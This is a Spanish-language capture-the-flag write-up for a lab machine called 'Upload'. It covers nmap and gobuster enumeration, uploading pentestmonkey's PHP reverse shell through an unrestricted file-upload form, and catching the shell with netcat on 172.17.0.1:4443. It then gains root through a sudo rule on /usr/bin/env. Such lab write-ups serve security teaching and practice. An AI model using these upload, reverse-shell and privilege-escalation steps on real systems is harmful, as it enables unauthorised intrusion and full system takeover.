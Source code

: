 # Upload

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Como tenemos abierto el puerto 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Parece por el título que sea un sistema para subir un archivo y vamos a enumerar la página, mientras vemos lo que contiene, dejamos haciendo fuzzing con gobuster.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php, txt, html
```

En la página encontramos un sistema de subir archivos que probaremos a subir un archivo con una reverse shell, para obtener acceso a la máquina.

Vamos a ver que hemos encontrado con gobuster y vemos que tenemos un directorio en http://172.17.0.2/uploads/ que tiene pinta que es donde se subirán los archivos.

```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
/.php                 (Status: 403) [Size: 275]
/.                    (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
```
## Explotación.

Ahora para subir la reverse shell vamos a https://github.com/pentestmonkey/php-reverse-shell y utilizamos la reverse-shell.php que han creado ellos que funciona muy bien. Solo hay que copiar el código en un archivo php en nuestro ordenador y sustituir la ip y el puerto en el que vamos a estar en escucha.
```bash
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```

Subimos el archivo que terminamos de crear con la reverse shell y vemos que acepta archivos php.

Si vamos al directorio http://172.17.0.2/uploads/ vemos que nuestro archivo está subido y solo tendremos que hacer click sobre él y estar a la espera en nuestro equipo con netcat en puerto que habíamos indicado en el script.

```bash
nc -lvnp 4443
```

Y obtendremos la reverse shell directamente como el usuario data.
```bash
❯ nc -lvnp 4443
listening on [any] 4443 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 59230
Linux ebd3a0fc70ea 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 x86_64 x86_64 GNU/Linux
 12:14:20 up 42 min,  0 users,  load average: 0.06, 0.11, 0.25
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$  
```
## Escalada de privilegios.

Ahora comprobamos empezamos la escalada de privilegios viendo si hay algún archivo con permisos sudo que podamos utilizar siendo el usuario www-data.

```bash
sudo -l
```

```bash
$ sudo -l
Matching Defaults entries for www-data on ebd3a0fc70ea:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on ebd3a0fc70ea:
    (root) NOPASSWD: /usr/bin/env
$ 
```

Vemos que podemos utilizar el binario /usr/bin/env y para ello podemos ir a [GTFOBins](https://gtfobins.github.io/)y ver como explotar ese binario como muchos otros. En este caso simplemento tenemos que poner el siguiente comando.

```bash
sudo /usr/bin/env /bin/bash
```

Y con ello ya obtenemos una bash como root.
```bash
$ sudo /usr/bin/env /bin/bash
whoami
root
```

Para más comodidad podemos hacer un tratamiento de la tty.

```bash
script /dev/null -c bash
```

-- Hacemos Ctrl + c --

```bash
stty -raw echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export SHELL=bash
```

```bash
root@ebd3a0fc70ea:/# whoami
whoami
root
root@ebd3a0fc70ea:/# 
```
